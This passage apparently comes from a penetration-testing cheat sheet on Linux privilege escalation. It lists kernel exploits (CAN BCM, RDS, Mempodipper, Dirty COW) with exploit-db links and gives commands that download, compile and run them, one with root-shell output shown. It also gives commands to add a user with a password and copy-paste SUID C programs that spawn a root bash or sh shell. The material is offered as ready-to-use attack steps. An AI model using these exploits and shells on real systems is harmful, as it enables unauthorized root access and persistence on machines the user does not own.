 - CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)

    [https://www.exploit-db.com/exploits/14814/](https://www.exploit-db.com/exploits/14814/)

         wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
         $ gcc i-can-haz-modharden.c -o i-can-haz-modharden
         $ ./i-can-haz-modharden
         [+] launching root shell!
         # id
         uid=0(root) gid=0(root)

- CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
    [https://www.exploit-db.com/exploits/15285/](https://www.exploit-db.com/exploits/15285/)

- CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)  
    [https://git.zx2c4.com/CVE-2012-0056/about/](https://git.zx2c4.com/CVE-2012-0056/about/)  
    Linux CVE 2012-0056  

          wget -O exploit.c http://www.exploit-db.com/download/18411 
          gcc -o mempodipper exploit.c  
          ./mempodipper

- CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  
    [https://dirtycow.ninja/](https://dirtycow.ninja/)  
    First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016  

- Run a command as a user other than root  

          sudo -u haxzor /usr/bin/vim /etc/apache2/sites-available/000-default.conf

- Add a user or change a password

          /usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor  
          echo thePassword | passwd haxzor --stdin

- Local Privilege Escalation Exploit in Linux

  - **SUID** (Set owner User ID up on execution)  
        Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required. below are some quick copy and paste examples for various shells:

            ```shell
            # SUID C Shell for /bin/bash  

            int main(void){  
            setresuid(0, 0, 0);  
            system("/bin/bash");  
            }  

            # SUID C Shell for /bin/sh  

            int main(void){  
            setresuid(0, 0, 0);  
            system("/bin/sh");  
            }  
